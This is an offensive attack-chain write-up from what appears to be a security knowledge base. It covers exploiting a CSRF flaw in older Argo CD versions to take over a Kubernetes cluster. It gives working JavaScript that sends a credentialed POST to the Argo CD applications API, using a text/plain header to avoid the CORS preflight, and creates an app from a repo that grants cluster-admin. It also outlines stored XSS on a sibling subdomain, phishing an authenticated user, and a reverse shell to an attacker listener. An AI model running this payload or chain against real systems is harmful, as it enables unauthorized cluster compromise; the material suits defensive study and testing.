

---
tags:
  - csrf
  - argocd
  - kubernetes
  - rce
  - xss
  - reverse-shell
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
commands:
  - '[[commands/csrf-post-application-creation]]'
  - '[[commands/kubernetes-reverse-shell]]'
verified: false
platforms:
  - Kubernetes
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Set-Up-Argo-CD-Test-Environment]]'
  - '[[procedures/Establish-Control-Over-Subdomain-via-Stored-XSS]]'
  - '[[procedures/Inject-Malicious-JavaScript-for-CSRF-Exploitation]]'
  - '[[procedures/Trick-Authenticated-User-to-Visit-Malicious-Page]]'
  - '[[procedures/Deploy-Malicious-Argo-CD-Application]]'
  - '[[procedures/Execute-Reverse-Shell-from-Privileged-Pod]]'
step_count: 6
techniques:
  - '[[Drive-by Compromise]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[Unix Shell]]'
updated_at: '2025-12-14T17:27:50.241Z'
description: >-
  A multi-stage attack exploiting CSRF in Argo CD to deploy malicious Kubernetes
  resources and gain cluster-admin access via reverse shell.
skill_level: intermediate
impact_level: high
id: 942188cb-7c3c-4364-ab4e-f24faa020053
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[Unix Shell]]'
---
# Argo CD CSRF Exploitation Leading to Kubernetes Cluster Compromise

Multi-stage attack chain demonstrating a complete attack workflow exploiting CSRF in Argo CD versions prior to 2.10-rc2, 2.9.4, 2.8.8, and 2.7.16 to compromise a Kubernetes cluster.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (relies on browser and Kubernetes access for setup)

### Target Environment

- Argo CD v2.8.2 or vulnerable versions deployed on Kubernetes
- Services: Argo CD API on port 443 (HTTPS), Kubernetes API
- Network: Attacker controls a subdomain under the same parent domain (e.g., marketing.victim.com targeting argocd.internal.victim.com)

### Initial Access Requirements

- Ability to inject Stored XSS on a subdomain
- Authenticated Argo CD user session (tricked via social engineering)
- Access to a malicious GitHub repo for payload hosting
- Listener setup (e.g., netcat) on attacker machine at 10.0.0.1:4242

## Detailed Attack Procedures

### Step 1: Set Up Test Environment
procedure: [[procedures/Set-Up-Argo-CD-Test-Environment]]

**Objective**: Deploy a vulnerable Argo CD instance in a Kubernetes cluster to simulate the target environment.

**Instructions**: Use Kubernetes manifests or Helm to install Argo CD v2.8.2. Ensure the Argo CD server is exposed internally and uses Lax SameSite cookie policy.

**Expected Output**: Running Argo CD instance accessible at https://argocd.internal.victim.com.

**Success Indicators**:
- Argo CD pods are healthy
- API endpoint /api/v1/applications responds to authenticated requests

### Step 2: Establish Control Over Subdomain via Stored XSS
procedure: [[procedures/Establish-Control-Over-Subdomain-via-Stored-XSS]]

**Objective**: Gain ability to inject content on a subdomain sharing the parent domain with Argo CD.

**Instructions**: Exploit a Stored XSS vulnerability on https://marketing.victim.com to persist malicious script injection.

**Expected Output**: Persistent script execution on page load for visitors.

**Success Indicators**:
- XSS payload executes in browser console
- Control over page content confirmed

### Step 3: Inject Malicious JavaScript for CSRF Exploitation
procedure: [[procedures/Inject-Malicious-JavaScript-for-CSRF-Exploitation]]

**Objective**: Embed JavaScript that sends a CSRF POST request to create a malicious Argo CD application.

**Instructions**: Inject the following JavaScript using [[commands/csrf-post-application-creation]] on the controlled page:

```javascript
var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://argocd.internal.victim.com/api/v1/applications'); xhr.setRequestHeader('Content-Type', 'text/plain'); xhr.withCredentials = true; xhr.send('{"apiVersion":"argoproj.io/v1alpha1","kind":"Application","metadata":{"name":"test-app1"},"spec":{"destination":{"name":"","namespace":"default","server":"https://kubernetes.default.svc"},"source":{"path":"argotest1","repoURL":"https://github.com/califio/argotest1","targetRevision":"HEAD"},"sources":[],"project":"default","syncPolicy":{"automated":{"prune":false,"selfHeal":false}}}}');
```

**Expected Output**: Request sent with text/plain Content-Type, bypassing CORS preflight.

**Success Indicators**:
- Network tab shows POST to /api/v1/applications with credentials
- No CORS error in console

### Step 4: Trick Authenticated User to Visit Malicious Page
procedure: [[procedures/Trick-Authenticated-User-to-Visit-Malicious-Page]]

**Objective**: Lure an authenticated Argo CD user to the malicious subdomain page to trigger the CSRF.

**Instructions**: Use phishing or lure the user to https://marketing.victim.com while their Argo CD session is active.

**Expected Output**: Browser automatically sends the CSRF request due to Lax SameSite cookies.

**Success Indicators**:
- User visits page without logout
- Argo CD logs show incoming POST from subdomain

### Step 5: Deploy Malicious Argo CD Application
procedure: [[procedures/Deploy-Malicious-Argo-CD-Application]]

**Objective**: Have Argo CD sync and deploy resources from the malicious GitHub repo.

**Instructions**: The created application points to https://github.com/califio/argotest1, which contains YAML for ServiceAccount, Pod, ClusterRole, and ClusterRoleBinding granting cluster-admin.

**Expected Output**: Malicious pod deployed in default namespace with admin privileges.

**Success Indicators**:
- Argo CD UI shows new application synced
- Kubernetes resources created (kubectl get all)

### Step 6: Execute Reverse Shell from Privileged Pod
procedure: [[procedures/Execute-Reverse-Shell-from-Privileged-Pod]]

**Objective**: Connect back to attacker with cluster-admin access.

**Instructions**: The pod spec includes [[commands/kubernetes-reverse-shell]] to establish the connection.

**Expected Output**: Interactive shell on attacker's listener.

**Success Indicators**:
- Connection received on 10.0.0.1:4242
- Commands like kubectl get nodes execute successfully

## Attack Chain Summary

### Key Achievements

1. Bypassed CORS via text/plain Content-Type in CSRF request
2. Deployed privileged Kubernetes resources without direct auth
3. Achieved full cluster compromise via reverse shell

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]] Drive-by Compromise (via subdomain XSS)
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application (CSRF in Argo CD API)
- [[Unix Shell]] Unix Shell (reverse shell execution)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Privilege Escalation]] Privilege Escalation

---
*Last updated: 2023-10-01T00:00:00Z*
